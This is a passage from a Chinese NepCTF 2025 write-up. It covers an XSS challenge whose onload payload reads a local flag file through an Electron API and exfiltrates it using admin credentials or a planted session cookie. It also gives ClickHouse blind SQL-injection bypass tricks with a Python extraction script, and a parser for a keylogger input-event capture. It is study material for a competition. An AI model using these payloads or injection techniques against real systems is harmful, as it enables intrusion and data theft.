uploads/f329a942-bd2e-4902-bc83-add5e4df0094/微信图片_2025-07-16_112547_870.jpg?a=1\" onload=\"window.electronAPI.curl('file:///flag').then(result => { fetch('/api/login',{method:'POST',headers:{'Content-Type':'application/json'},credentials:'include',body:JSON.stringify({username:'admin',password:'nepn3pctf-game2025'})}).then(()=>fetch('/api/save-bio',{method:'POST',headers:{'Content-Type':'application/json'},credentials:'include',body:JSON.stringify({bio:result.data})}));});
```

先访问/api/bot

然后访问/api/user即可拿到flag

也可以让bot直接带着我们的cookie把flag存到我们的个人简介里

```
onload=\"document.cookie='connect.sid=s%3A2IyVvrMrKpsxYeAVvr-6XkcgtPLfzeag.J%2F%2B0qDmfzAt23SC4Z9OHyjSIIcyWaOSVkPH276dCBBE';window.electronAPI.curl('file:///flag').then(data=>{console.log(data);fetch('/api/save-bio', {method: 'POST', headers: {'Content-Type': 'application/json',},body: JSON.stringify({'bio':JSON.stringify(data)})})});
```

这个XSS题还挺有意思的，但是感觉对我来说太难了

---

### 我难道不是sql注入天才吗

这题使用了clickhouse数据库，之前没学过

clickhouse数据库高版本支持一些特殊的sql语句写法如下：

#### 绕过select from

select from语句可以写为

```
FROM table select *
```

官方文档如下 《FROM 子句》：

https://clickhouse.com/docs/sql-reference/statements/select/from

#### 绕过括号限制

一般认为没有括号就无法进行子查询，所以这里的思路只能是利用union、intersect、except中的一个进行查询拼接（mysql 8高版本也支持）

详细查看官方文档《SELECT Query》：

https://clickhouse.com/docs/sql-reference/statements/select

利用上面的payload就可以写出如下的payload来进行查询

```
select * from users where id=1 
intersect 
from system.databases select 1,'User_1','user1@example.com',44 where name>'abc'
```

当数据库名大于字符串abc，就会返回User_1的信息，不大于就会报错，利用这一点可以注入出库名了

这里比较字符串用的是字典序

我们注入表名列名需要使用如下语句

```
select * from users where id=1 
intersect 
from system.tables select 1,'User_1','user1@example.com',44 where database='nepnep' and name > 'abc' 
```

因为没有and所以得想办法绕过

#### 绕过or和and

clickhouse无法像mysql那样随意使用`+-*/^|`进行数字或者运算

```
select * from table where id=1='abc'#会报错
select * from table where id=1^name='abc'#会报错
select * from table where id=1 and name='abc'#正确
```

一种方法

利用文档里的操作符：https://clickhouse.com/docs/sql-reference/operators

```
a ? b : c
```

最终payload如下

```
1 intersect from system.tables select 1,'User_1','user1@example.com',44 where database='nepnep'?name>'abc':0
```

#### exp

```
import requests
url='http://127.0.0.1:35644/'
flag=''
for i in range(1,50):
    left=1
    right=129

    while right-left!=1:
        mid=(left+right)//2
        data={
        #'id':"1 intersect from system.databases select 1,'User_1','user1@example.com',44 where name>'{mid}' limit 1,1".format(mid=flag+chr(mid))
        #nepnep
        #'id':"1 intersect from system.tables select 1,'User_1','user1@example.com',44 where database='nepnep'?name>'{mid}':0".format(mid=flag+chr(mid))
        #nepnep
        #'id':"1 intersect from system.columns select 1,'User_1','user1@example.com',44 where table='nepnep'?name>'{mid}':0 limit 2,1".format(mid=flag+chr(mid))
        #51@g_ls_h3r3
        'id':"1 intersect from nepnep.nepnep select 1,'User_1','user1@example.com',44 where `51@g_ls_h3r3`>'{mid}'".format(mid=flag+chr(mid))
        #NepCTF{9dd5d582-d102-1e6b-75ff-154291064870}
        }
        r=requests.post(url=url,data=data)
        if'未找到ID' not in r.text:
            left=mid
        else:
            right=mid
    flag+=chr(left)
    print(flag.encode())
```

注意一定要使用 LIMIT offset, number

表示跳过前offset行，取number行

因为从system.databases中取数据库名会返回多行，如果不限制就无法进行盲注比较。

---

## MISC

### NepBotEvent

文件给出的是Linux Dev Input Event的记录数据，所以关键是找到文件的结构。

我当时给很多ai看了这个文件，都没法分析出来是什么文件

```
struct input_event {
    struct timeval time;
    unsigned short type;
    unsigned short code;
    unsigned int value;
};
```

根据文件的结构让ai写出对应的解析脚本

```
#!/usr/bin/env python3
import sys
import re
import struct
from collections import deque
from datetime import datetime

# --- 键盘事件常量定义 ---
EV_KEY = 1  # 键盘事件类型
EV_MSC = 4  # 杂项事件类型
MSC_SCAN = 4  # 扫描码子类型

# --- 按键状态 ---
KEY_PRESS = 1  # 按键按下
KEY_RELEASE = 0  # 按键释放
KEY_HOLD = 2  # 按键长按

# --- 特殊键码定义 ---
KEY_BACKSPACE = 14
KEY_ENTER = 28
KEY_SPACE = 57
KEY_TAB = 15

# --- 修饰键定义 ---
MODIFIERS = {
    42: 'LeftShift',
    54: 'RightShift',
    29: 'LeftCtrl',
    97: 'RightCtrl',
    56: 'LeftAlt',
    100: 'AltGr',
    125: 'LeftMeta',
    126: 'RightMeta'
}

# --- 基本字符映射表 (无修饰键) ---
KEYMAP_BASE = {
    # 字母键 (小写)
    **{30 + i: chr(ord('a') + i) for i in range(26)},

    # 数字键
    2: '1', 3: '2', 4: '3', 5: '4', 6: '5',
    7: '6', 8: '7', 9: '8', 10: '9', 11: '0',

    # 符号键
    12: '-', 13: '=', 16: 'q', 17: 'w', 18: 'e',
    19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i',
    24: 'o', 25: 'p', 26: '[', 27: ']', 43: '\\',
    30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g',
    35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';',
    40: "'", 41: '`', 44: 'z', 45: 'x', 46: 'c',
    47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',',
    52: '.', 53: '/',

    # 功能键 (用特殊符号表示)
    59: '[F1]', 60: '[F2]', 61: '[F3]', 62: '[F4]',
    63: '[F5]', 64: '[F6]', 65: '[F7]', 66: '[F8]',
    67: '[F9]', 68: '[F10]', 87: '[F11]', 88: '[F12]',

    # 导航键
    71: '[Home]', 72: '[Up]', 73: '[PageUp]',
    75: '[Left]', 77: '[Right]',
    79: '[End]', 80: '[Down]', 81: '[PageDown]',
    82: '[Insert]', 83: '[Delete]',

    # 特殊功能键
    1: '[Esc]', 14: '[Backspace]', 15: '[Tab]',
    28: '[Enter]', 57: ' ', 119: '[PrintScreen]',
    127: '[Power]', 128: '[Sleep]'
}

# --- Shift修饰后的字符映射表 ---
KEYMAP_SHIFT = {
    # 字母键 (大写)
    **{30 + i: chr(ord('A') + i) for i in range(26)},

    # 数字键上的符号
    2: '!', 3: '@', 4: '#', 5: '$', 6: '%',
    7: '^', 8: '&', 9: '*', 10: '(', 11: ')',

    # 符号键
    12: '_', 13: '+', 16: 'Q', 17: 'W', 18: 'E',
    19: 'R', 20: 'T', 21: 'Y', 22: 'U', 23: 'I',
    24: 'O', 25: 'P', 26: '{', 27: '}', 43: '|',
    30: 'A', 31: 'S', 32: 'D', 33: 'F', 34: 'G',
    35: 'H', 36: 'J', 37: 'K', 38: 'L', 39: ':',
    40: '"', 41: '~', 44: 'Z', 45: 'X', 46: 'C',
    47: 'V', 48: 'B', 49: 'N', 50: 'M', 51: '<',
    52: '>', 53: '?'
}


def parse_event_data(event_bytes):
    """解析单个输入事件数据（二进制格式）"""
    try:
        # 解析64位格式的输入事件
        tv_sec, tv_usec, etype, code, value = struct.unpack('<QQHHI', event_bytes)
        timestamp = datetime.fromtimestamp(tv_sec + tv_usec / 1e6)

        return {
            'timestamp': timestamp,
            'type': etype,
            'code': code,
            'value': value,
            'raw': event_bytes
        }
    except struct.error:
        return None


def get_key_char(key_code, modifiers):
    """根据键码和修饰键状态获取对应的字符"""
    # 检查是否为修饰键
    if key_code in MODIFIERS:
        return None

    # 处理Shift修饰
    if 'LeftShift' in modifiers or 'RightShift' in modifiers:
        return KEYMAP_SHIFT.get(key_code, KEYMAP_BASE.get(key_code, f'[Unknown:{key_code}]'))

    # 无修饰键
    return KEYMAP_BASE.get(key_code, f'[Unknown:{key_code}]')


def main():
    """主函数"""
    # 设置输入文件路径
    input_file = r".\NepBot_keylogger"

    try:
        with open(input_file, 'rb') as f:
            data = f.read()
    except Exception as e:
        print(f"无法读取文件: {e}")
        sys.exit(1)

    print(f"正在解析文件: {input_file}")
    print(f"文件大小: {len(data)} 字节")

    # 解析事件
    modifiers = set()  # 当前激活的修饰键
    buffer = deque()  # 输出缓冲区
    last_keypress = None  # 上次按下的键

    # 按24字节块解析数据
    for i in range(0, len(data), 24):
        event_bytes = data[i:i + 24]
        if len(event_bytes) < 24:
            break

        event = parse_event_data(event_bytes)
        if not event:
            continue

        # 处理按键事件
        if event['type'] == EV_KEY:
            key_code = event['code']
            key_state = event['value']

            # 更新修饰键状态
            if key_code in MODIFIERS:
                if key_state == KEY_PRESS:
                    modifiers.add(MODIFIERS[key_code])
                elif key_state == KEY_RELEASE:
                    modifiers.discard(MODIFIERS[key_code])
                continue

            # 处理普通按键
            if key_state == KEY_PRESS:
                last_keypress = key_code

                # 处理退格键
                if key_code == KEY_BACKSPACE and buffer:
                    buffer.pop()
                    continue

                # 获取字符
                char = get_key_char(key_code, modifiers)

                # 添加到缓冲区
                if char:
                    # 特殊键用方括号包裹，普通字符直接添加
                    if char.startswith('[') and char.endswith(']'):
                        buffer.append(char)
                    else:
                        buffer.append(char)

    # 输出结果
    result = ''.join(buffer)
    print(f"\n解析完成，共识别出 {len(result)} 个字符")
    print("-" * 50)

    # 打印前400个字符
    print(result[:400])

    if len(result) > 400:
        print("\n... 输出内容过长，只显示了前400个字符 ...")

    # 自动提取数据库名（CTF可能需要）
    m = re.search(r'use\s+`?([A-Za-z0-9_\-]+)`?;', result, re.I)
    if m:
        dbname = m.group(1)
        print('\n>>> 解析到 use 语句：', m.group(0).strip())
        print(f'>>> 数据库名：{dbname}')
    else:
        print('\n>>> 未找到数据库名')


if __name__ == "__main__":
    main()

```

最终可以得到`NepCTF{NepCTF-20250725-114514}`

---

两个游戏逆向题就不复现了，因为附件已经下不下来了

直接看

官方wphttps://mp.weixin.qq.com/s/ZglQZyriSHgcOeNMdTYOUw

---

### 客服小美

这题主要难点在cs流量解密，又是一个我没学过的东西

附件也没了，难绷，依然

官方wphttps://mp.weixin.qq.com/s/ZglQZyriSHgcOeNMdTYOUw

大佬wp：https://blog.csdn.net/edigexiong/article/details/149725919


